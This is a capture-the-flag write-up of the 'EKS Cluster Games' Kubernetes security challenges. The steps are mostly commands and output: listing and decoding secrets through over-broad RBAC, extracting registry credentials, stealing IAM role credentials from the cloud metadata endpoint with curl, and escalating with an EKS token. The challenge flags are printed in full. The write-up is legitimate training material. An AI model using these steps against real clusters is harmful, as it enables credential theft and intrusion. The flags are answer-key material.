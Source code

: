 ```yaml
---
title: "EKS Cluster Games CTF"
date: 2023-11-10
draft: false
tags:
  - k8s
  - security
  - write-up
  - CTF
---
```

Time for a weekend CTF! Came across this while going through one of my [newsletter subscriptions](https://tldrsec.com/p/tldr-sec-207).

## Challenge 1
This is a simple introduction to security vulns within kubernetes RBAC permissions. 
![Challenge-1](images/Chall-1.png)

Here are the permissions we are given for this challenge.
```json
{
    "secrets": [
        "get",
        "list"
    ]
}
```

Its a [well documented ](https://kubernetes.io/docs/reference/access-authn-authz/authorization/#determine-the-request-verb)point that even providing the `list` permission grants access to the secret contents. Check [this](https://www.antitree.com/2020/11/when-list-is-a-lie-in-kubernetes/) blog post for more info.
![k8s-docs](images/k8s-docs.png)
For this challenge however, all I had to do was decrypt the single secret present in the namespace:
```shell
root@wiz-eks-challenge:~# kubectl get secret log-rotate -o go-template='{{.data.flag|base64decode}}'
wiz_eks_challenge{omg_over_privileged_secret_access}
```
## Challenge 2
![Chall-2](images/Chall-2.png)

Permissions provided:
```json
{
    "secrets": [
        "get"
    ],
    "pods": [
        "list",
        "get"
    ]
}
```
Based on our permissions, lets first get the list of pods in our namespace:
```shell 
root@wiz-eks-challenge:~# kubectl get pods
NAME                    READY   STATUS    RESTARTS   AGE
database-pod-2c9b3a4e   1/1     Running   0          8d
```
On checking the manifest of the running pod, I observed that it was using an `imagePullSecret` for authentication with the registry.
```yaml
...
  containers:
    - image: eksclustergames/base_ext_image
      imagePullPolicy: Always
      name: my-container
      resources: {}
      terminationMessagePath: /dev/termination-log
      terminationMessagePolicy: File
      volumeMounts:
      - mountPath: /var/run/secrets/kubernetes.io/serviceaccount
        name: kube-api-access-cq4m2
        readOnly: true
    dnsPolicy: ClusterFirst
    enableServiceLinks: true
    imagePullSecrets:
    - name: registry-pull-secrets-780bab1d
...
```
So, I then decrypted the secret to get the credentials. Since I only have list permission, I have to explicitly provide the secret name while I `get` the contents.
```shell 
root@wiz-eks-challenge:~# kubectl get secret registry-pull-secrets-780bab1d -o go-template='{{index .data ".dockerconfigjson"|base64decode}}'; echo
{"auths": {"index.docker.io/v1/": {"auth": "ZWtzY2x1c3RlcmdhbWVzOmRja3JfcG<SNIP>LVI4NW1HN200bHI0NWlZUWo4RnVDbw=="}}}
```
Decrypting the`auth` field gives us the registry credentials.
```shell
root@wiz-eks-challenge:~# echo "ZWtzY2x1c3RlcmdhbWVzOmRja3JfcG<SNIP>LVI4NW1HN200bHI0NWlZUWo4RnVDbw==" | base64 -d ; echo
eksclustergames:dckr_<SNIP>Qj8FuCo
```
Now, we can to login with the above credentials to the registry. This is where the tool mentioned in the question comes into picture. I don't know about `crane` so I subbed it with `skopeo` on my device, which has the same functionality.
```shell
❯❯❯ skopeo login docker.io
Username: eksclustergames
Password:
Login Succeeded!

❯❯❯ skopeo list-tags docker://docker.io/eksclustergames/base_ext_image
{
    "Repository": "docker.io/eksclustergames/base_ext_image",
    "Tags": [
        "latest"
    ]
}
```

Now, I thought the flag might be within the image itself. So I tried to pull the image contents into a directory:
```shell
❯❯❯ skopeo copy docker://docker.io/eksclustergames/base_ext_image:latest dir:base_ext_image
```
after browsing through the manifest file, I got to know the config file name and skimmed through it.
There, I found the flag in one of the history entries of the layers!
![Chall-2-flag](images/Chall-2-flag.png)

## Challenge 3
![Chall-3](images/Chall-3.png)

This took a short time for me since I already knew about the attack vectors from practicing on [flAWS2.cloud](http://flaws2.cloud/)'s attacker path. I got the hint from the question: `Remember: You are running inside a compromised EKS pod`. This means that the pod may have access to the IMDS (Instance Metadata Service) of the instance it is running on. 

It works! I then obtained the instance role credentials from the IMDS and exported it into the pod as environment variables 
```shell
root@wiz-eks-challenge:~# curl 169.254.169.254/latest/meta-data/iam/security-credentials/eks-challenge-cluster-nodegroup-NodeInstanceRole
{"AccessKeyId":"ASIA2<SNIP>A22HDHQ","Expiration":"2023-11-10 10:48:46+00:00","SecretAccessKey":"DyneBi<SNIP>nmGxNXR/ZCriRz","SessionToken":"FwoGZXIvYXdzEMP//////////wEaDG/Bhy53jX6MsUb72iK3AUKiCkFlw7SmLSXSOS2d6nNvjnOLTgaNSA+LoYbmj1ZmicffRgmwgEhHm/3ZbY<SNIP>f3VA6gI+WxPwslW/xvnlxJPQmwj9dv6HzOGAJKBbYZHgHU+xKaTCr4TtuL3Dd3gAYs4<SNIP>jqnz4u7coJwyLntSxjpM60dXr7cAE7/u/3nFp1QYK+E81b"}

root@wiz-eks-challenge:~# from the above output
export AWS_ACCESS_KEY_ID=<AccessKeyId>
export AWS_SECRET_ACCESS_KEY=<SecretAccessKey> 
export AWS_SESSION_TOKEN=<SessionToken>
```

I did some yak-shaving and learned about using crane from [here](https://github.com/google/go-containerregistry/blob/main/cmd/crane/doc/crane.md). The next thing I had to do was to login to the registry and download the image as a tarball. The registry URL was obtained from the pod spec.
```shell
root@wiz-eks-challenge:~# aws ecr get-login-password | crane auth login --username AWS --password-stdin 688655246681.dkr.ecr.us-west-1.amazonaws.com
logged in via /home/user/.docker/config.json

root@wiz-eks-challenge:~# crane pull 688655246681.dkr.ecr.us-west-1.amazonaws.com/central_repo-aaf4a7c:374f28d8-container container.tar

root@wiz-eks-challenge:~# tar -xvf container.tar
sha256:575a75bed1bdcf83fba40e82c30a7eec7bc758645830332a38cef238cd4cf0f3
3f4d90098f5b5a6f6a76e9d217da85aa39b2081e30fa1f7d287138d6e7bf0ad7.tar.gz
e7310b04c944c3e0bbb9ebc04b885dc7ad937061e0dc77c73449ef133eab4fd9.tar.gz
manifest.json
```
similar to [Challenge 2](#challenge-2), the flag was in the history entries
![Chall-3-flag](images/Chall-2-flag.png)

## Challenge 4

![Chall-4](images/Chall-4.png)

This one was tough. I went into far too many rabbit holes🐰. Finally gave up and looked at [other](http://sontek.net/blog/2023/eks_cluster_games_ctf) [write-ups](https://youtu.be/m2SGARomWTk?si=3qEdG93T3E6ZU77m&t=1369).

I didn't know about `aws eks get-token` command. It apparently give a token based on the IAM role we are using when running the command.
```shell
root@wiz-eks-challenge:~# aws eks get-token --cluster-name eks-challenge-cluster
{
    "kind": "ExecCredential",
    "apiVersion": "client.authentication.k8s.io/v1beta1",
    "spec": {},
    "status": {
        "expirationTimestamp": "2023-11-10T12:25:06Z",
        "token": "k8s-aws-v1.aHR0cHM6Ly9zdHMudXMtd2VzdC0xLmFtYXpvbmF3cy5jb20vP0FjdGlvbj1HZXRDYWxsZXJJZGVudGl0eSZWZXJzaW9uPT<SNIP>ViQVVWbEhxUCUyRmJjSDhhQVlrd3BJa29PQTNoZE9wR3YzOFRKY05VS0gwQXlpWHU3aXFCakl0ZnZHdTJKcTJ3c2pFdUkzWWMlMkJwTjJiSEhOTWlNVjVqZk1pdEMlMkI2eWJxUGVMQXhVS25KRVo4cEJCRVR5USZYLUFtei1TaWduYXR1cmU9MmRhMjVhOTFjYzU2YjJmNTIwZDQ5YmE4YWMzNmI4ZDE4YWU0YTMxNjllZTkzZGI5MzhiMDNjYTUxNjlkMWNlNA"
    }
}
```
Now, using this token, I can connect to the cluster with the `--token` flag
```shell
root@wiz-eks-challenge:~# kubectl --token="$TOKEN" auth can-i --list
warning: the list may be incomplete: webhook authorizer does not support user rule resolution
Resources                                       Non-Resource URLs   Resource Names     Verbs
serviceaccounts/token                           []                  [debug-sa]         [create]
selfsubjectaccessreviews.authorization.k8s.io   []                  []                 [create]
selfsubjectrulesreviews.authorization.k8s.io    []                  []                 [create]
pods                                            []                  []                 [get list]
secrets                                         []                  []                 [get list]
serviceaccounts                                 []                  []                 [get list]
                                                [/api/*]            []                 [get]
...
```
The flag was inside a secret which we now have access to view
```shell
root@wiz-eks-challenge:~# kubectl --token="$TOKEN" get secrets node-flag -o=go-template='{{.data.flag|base64decode}}'; echo
wiz_eks_challenge{only_a_real_pro_can_navigate_IMDS_to_EKS_congrats}
```

## Conclusion
Overall a very fun CTF. Learned a lot through this. There is a final challenge which I have skipped in this blog post. Look forward to more stuff in the future!
